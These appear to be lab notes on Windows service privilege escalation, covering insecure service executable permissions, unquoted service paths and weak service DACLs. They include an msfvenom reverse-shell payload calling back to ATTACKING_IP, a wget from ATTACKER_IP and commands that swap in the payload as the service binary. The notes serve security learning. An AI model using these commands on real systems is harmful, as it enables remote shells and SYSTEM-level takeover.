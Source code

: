**Windows Services:**
To better understand the structure of a service, check the apphostsvc service configuration with:

```
sc qc apphostsvc
```

All of the services configurations are stored on the registry under `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\`

**Insecure Permissions on Service Executable:**

Check WindowsScheduler with:

```
sc qc WindowsScheduler
```

Check if you can edit the script with:

```
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

Create payload on Attack Machine:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_IP LPORT=port -f exe-service -o /var/html/www/rev-svc.exe
```

Start Server to Serve Payload:

```
python3 -m http.server
```

Recieve/Move Payload Into Place:

```
wget http://ATTACKER_IP:port/rev-svc.exe -O rev-svc.exe

move WService.exe WService.exe.bkp

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

icacls WService.exe /grant Everyone:F
```

**Unquoted Service Paths:**
If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.


**Insecure Service Permissions:**
Should DACL allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
```
